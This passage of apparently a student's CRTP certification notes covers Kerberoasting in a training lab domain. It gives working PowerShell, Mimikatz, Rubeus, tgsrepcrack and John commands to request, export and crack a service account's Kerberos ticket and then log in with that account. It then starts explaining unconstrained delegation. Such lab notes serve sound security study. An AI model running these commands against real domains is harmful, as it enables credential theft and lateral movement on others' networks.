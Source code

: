 the svcadmin user has a privilege on the MSSQLsvc service on the dcrop-mgmt.dollarcorp.moneycorp.local
2. Request a TGS
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/25d264e1-d269-4b4e-b451-5958e477da65)
3. Export ticket using Mimikatz or using Rubeus
```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
OR
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```
Don't forget to delete the port number from the Kerberos hash file

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/141f3f34-0949-42c6-ae3f-2aaa61e349bf)

4. Crack the ticket using tgscrack or using john
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
OR
john.exe --wordlist=C"\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/1ecb64fc-cdae-4d36-9bb3-b9738a1e0777)

5. Luanch a new PowerShell session using svcadmin username and his password

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/b15b7264-7304-4c97-87a0-8d3c3ae6175a)

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/c067715b-f197-4eed-9b3f-b9de6509333d)

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/15d626de-73bb-47d3-a338-0ad0328a044d)

 6. now try to access the dcorp-mgm device

 ![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/efd84534-6ff7-4c0b-a404-584962a1011f)

you were able to access the dcorp-mgmt device through the svcadmin user because he can execute the MSSQLsvc service in the dcrop-mgmt deivce

# Priv Esc - Unconstrained Delegation
Some devices contain a feature called UnConstrained Delegation. The idea of this feature is that any user who logs in to the device, whether he has Domain Admin privileges or another, and tries to set up access to a service located in another device via Kerberos, will save his TGT in the memory.

The reason for saving the TGT in the memory is that when another service is requested, we do not need to authenticate the TGT via Kerberos because it was already saved in the memory.

